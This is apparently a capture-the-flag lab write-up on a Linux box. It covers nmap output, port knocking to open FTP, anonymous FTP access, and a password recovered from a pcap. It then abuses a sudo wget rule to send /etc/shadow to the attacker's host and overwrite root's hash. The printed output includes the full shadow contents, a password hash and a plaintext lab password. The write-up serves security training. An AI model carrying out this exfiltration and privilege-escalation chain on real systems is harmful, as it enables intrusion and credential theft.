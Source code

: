 ## Description
 The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges. 
## Enumeration
 We started by scanning using `nmap`.
 nmap result:
 ```bash
 PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 21 filtered means that the port is being blocked by a firewall.
## Exploiting
Using `knock` we can allow connection to port 21. 
```knock works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.4.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
```
We can log in into FTP anonymously,we found a file named `login.pcap` we got it using `get`.
Using strings we can find any readable content in the file.
We can see a HTTP request using POST method,which is used to submit data to be processed by the resource identified by the URL.
The body of the request contains the data being sent to the server, in this case the username and password, encoded as `username=kabayla&password=K%40b%40ylA%21`.
So the decoded password is : `K@b@ylA!`
We can easily login using `ssh` with this credentials.
We can use `sudo -l` to list the user's sudo privileges.
So our user `kabayla` can run `/usr/bin/wget` as root without password.
Using `wget` we can post some files to our machine using `--post-file` option.
Starting our listener for port 80 we can get the files that we post from `wget`.
Doing this trick with /etc/shadow can help us view the password hash. We can crack it or overwrite it.
We got the POST request:
```bash
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 172.16.1.203
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1021

root:*:18099:0:99999:7:::
daemon:*:18099:0:99999:7:::
bin:*:18099:0:99999:7:::
sys:*:18099:0:99999:7:::
sync:*:18099:0:99999:7:::
games:*:18099:0:99999:7:::
man:*:18099:0:99999:7:::
lp:*:18099:0:99999:7:::
mail:*:18099:0:99999:7:::
news:*:18099:0:99999:7:::
uucp:*:18099:0:99999:7:::
proxy:*:18099:0:99999:7:::
www-data:*:18099:0:99999:7:::
backup:*:18099:0:99999:7:::
list:*:18099:0:99999:7:::
irc:*:18099:0:99999:7:::
gnats:*:18099:0:99999:7:::
nobody:*:18099:0:99999:7:::
systemd-network:*:18099:0:99999:7:::
systemd-resolve:*:18099:0:99999:7:::
syslog:*:18099:0:99999:7:::
messagebus:*:18099:0:99999:7:::
_apt:*:18099:0:99999:7:::
lxd:*:18099:0:99999:7:::
uuidd:*:18099:0:99999:7:::
dnsmasq:*:18099:0:99999:7:::
landscape:*:18099:0:99999:7:::
sshd:*:18099:0:99999:7:::
pollinate:*:18099:0:99999:7:::
ubuntu:!:18136:0:99999:7:::
ftp:*:18136:0:99999:7:::
kabayla:$6$MC5Bf0ny.RmVf$q/j4e1ab8xkBF9rRtILPemtZq3BMrPkjK.mCcb7jraCMBswToeYwTtKDqHgwlmNA6sCZv2rlOQ6hdGqv63Aqb1:18136:0:99999:7:::
Debian-snmp:!:18971:0:99999:7:::
```

We saved the output in a file named `shadow` in our machine, then we update the hash of root account we haah of kabayla account so they have the same hash, and we can easily log in root using the password of kabayala.
after editing the hash we can launch http server, and using `wget` we can replace the machine shadow with our modified shadow.
Then we easily logged in root,and got our flag.

